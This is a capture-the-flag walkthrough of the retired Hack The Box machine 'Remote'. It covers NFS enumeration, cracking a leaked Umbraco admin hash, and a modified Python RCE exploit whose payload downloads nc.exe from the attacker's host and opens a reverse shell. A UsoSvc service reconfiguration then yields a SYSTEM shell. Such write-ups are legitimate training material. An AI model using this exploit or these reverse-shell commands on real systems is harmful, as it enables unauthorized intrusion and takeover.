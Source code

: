```yaml
---
title:  "Hack The Box - Remote"
date:   2020-03-21
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf, rdp, Remote-Desktop]
---
```

My write-up / walktrough for Remote on Hack The Box. 

## Quick summary
Recently, Remote got retired and I'm now allowed to publish my write-up.
I added the box to `/etc/hosts` as `remote.htb` with it's ip `10.10.10.180`

![infocard](/images/remote/infocard.png)

## Enumeration
As allways, I started with some enumeration and scanned `remote.htb` with `nmap -sTV -p 1-10000 -oN nmap_tcp_scan remote.htb`

![nmap](/images/remote/nmap.png)

I found a couple of open ports and services to poke around there. `ftp` seemed to be a dead end, but I was able to show and mount a `nfs-share` on port 2049

```shell
faebu@kali:showmount -e remote.htb
faebu@kali:mkdir /tmp/infosec
faebu@kali:sudo mount -t nfs remote.htb:/site_backups /tmp/infosec
```
By enumerating the content on `/tmp/infosec`, I realized that the share contained a backup of a webseite, run by the `Umbraco-CMS`. I was not able to load the database on `App_Data/Umbraco.sdf` with a tool, but I could grab a hash by inspecting the file manually with an editor.
`admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa`

## crack the hash
I tried to crack the hash online and found instantly a match. `b8be16afba8c314ad33d812f22a04991b90e2aaa -> baconandcheese`

![crackstation](/images/remote/crackstation.png)

## Exploitation
With this credentials, I was able to log in the cms.
![logincms](/images/remote/loginCMS.png)

Now, the next step was to lookout for a possibility to take advantage of the gathered credentials, so I checked if there are some `remote code execution vulnerabilities` with `Umbraco`. Indead, I found an interesting proof of concept on [www.exploit-db.com](https://www.exploit-db.com/exploits/46153), which I had to modify as follows:

```python
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators

# Dork: N/A

# Date: 2019-01-13

# Exploit Author: Gregory DRAPERI & Hugo BOUTINON, adapted by jaeflo

# Vendor Homepage: http://www.umbraco.com/

# Software Link: https://our.umbraco.com/download/releases

# Version: 7.12.4

# Category: Webapps

# Tested on: Windows IIS

# CVE: N/A
import requests;
from bs4 import BeautifulSoup;

def print_dict(dico):

    print(dico.items());

# Execute a reverse shell with nc
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.xx.xx:80/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.xx.xx 443 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";

password="baconandcheese";

host = "http://remote.htb";

# Step 1 - Get Main page

s = requests.session()

url_main =host+"/umbraco/";

r1 = s.get(url_main);

# Step 2 - Process Login

url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";

loginfo = {"username":login,"password":password};

r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page

url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";

r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');

VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];

VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];

UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];

headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};

data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack

r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
The exploit loads the file nc.exe to `remote.htb`, so I also had to start a local webserver on my machine and provide there the requested file.

Before executing the exploit, I had to start a local netcat-instance in listening mode. After executing the exploit, I got a revershell on my machine and was able to grab the user flag with it.

![reverseshell](/images/remote/reverseshell.png)

## Privilege Escalation
Now, I had to enumerate the system a bit further. I decided to upload winPEASany.exe to remote.htb. I did this by tweaking the exploit for the reverse shell so that it opened a powershell instead of cmd.exe.
```
/tmp/nc.exe 10.10.xx.xx 443 -e powershell.exe
```
and uploaded the exe afterwards with `iwr`.
![upload](/images/remote/winpeaUpload.png)

The tool found numerous misconfiguration and possible attack-vectors, but to me, the most promising part was, that the actual logged in user is able to modify the `Update Orchestrator Service`

![privesc](/images/remote/privesc.png)

there are many explenation found on the internet how to take advantage of this fact. I followed the steps which [hipotermia](https://hipotermia.pw/htb/querier) described on his walkthrough of the `HTB-Box Querier` to reconfigure `UsoSvc` to get a reverse shell as `System`. 

```bash
PS C:\tmp> sc.exe stop UsoSvc
PS C:\tmp> sc.exe config usosvc binPath="C:\tmp\nc.exe 10.10.xx.xx 6868 -e cmd.exe"
PS C:\tmp> sc.exe qc usoSvc
```
![usosvc](/images/remote/usosvc_conf.png)

## Root the box
Once I started the `Update Orchestrator Service` `(sc.exe start usosvc)`, I got a reverseshell as `System`

![rootshell](/images/remote/rootshell.png)

As the Service last just for a couple of seconds, we have to be quick to gather the flag ;-)

![rootflag](/images/remote/rootflag.png)

## Conclusion 
Great box and a lot of fun. I had a pretty hard time to get to user, got stuck plenty of times with loose ends, but once I got user-access, I got root pretty fast as well. Unfortunately, the box is called `Remote` and I noticed well the `Teamviewer-Service`, but to be honest, I had no clue how to proceed on it. So I would say, I got the root flag, but not the intended way :-/

**Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box.
